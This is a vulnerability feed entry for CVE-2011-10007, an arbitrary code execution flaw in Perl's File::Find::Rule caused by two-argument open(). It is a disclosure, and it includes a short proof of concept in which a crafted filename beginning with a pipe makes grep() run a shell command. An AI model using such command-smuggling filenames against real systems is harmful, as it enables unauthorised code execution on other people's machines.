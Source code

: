 ```yaml
---
title: CVE-2011-10007
date: 2025-6-5
lien: "https://cvefeed.io/vuln/detail/CVE-2011-10007"

---
```


CVE ID : CVE-2011-10007

Published :  June 5
2025
12:15 p.m. | 38 minutes ago

Description : File::Find::Rule through 0.34 for Perl is vulnerable to Arbitrary Code Execution when `grep()` encounters a crafted filename.

A file handle is opened with the 2 argument form of `open()` allowing an attacker controlled filename to provide the MODE parameter to `open()`
turning the filename into a command to be executed.

Example:

$ mkdir /tmp/poc; echo > "/tmp/poc/|id"
$ perl -MFile::Find::Rule \
    -E 'File::Find::Rule->grep("foo")->in("/tmp/poc")'
uid=1000(user) gid=1000(user) groups=1000(user)
100(users)

Severity: 0.0 | NA

Visit the link for more details
such as CVSS details
affected products
timeline
and more...
